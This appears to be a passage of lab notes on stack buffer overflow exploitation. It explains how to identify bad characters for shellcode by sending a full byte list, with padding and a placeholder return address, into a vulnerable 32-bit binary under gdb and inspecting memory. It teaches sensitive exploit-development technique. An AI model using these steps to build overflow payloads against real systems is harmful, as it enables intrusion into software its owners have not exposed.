## Bad characters

Applications might contain some reserved bytes known as `bad characters`. If these bytes are passed as input, the program will just write 0x00 into the memory. When creating the shellcode, it is important to determine such bad characters to avoid having them in the shell code.

Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode:

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

The idea is that we'll pass the whole list of chars in the input, so the input now will look like this:

```shell
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
```

Now, we just need to place a breakpoint just after the input is read from memory to analyse the memory contents. This is done in gdb with `break <function-name>`:

```shell
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

and then, we send the input and examine the memory

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()

# Examine the memory: 2000 units, in hexadecimal (x) and each unit is 1 byte(b). Start at ESP (top of the stack)+ 500 bytes
x/2000xb $esp+500

<SNIP>
0xffffd5aa: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
             # |---> CHARS begin

0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
0xffffd5d2: 0x15 0x16 0x17 0x18 0x19 0x1a 0x1b 0x1c
<SNIP>
```
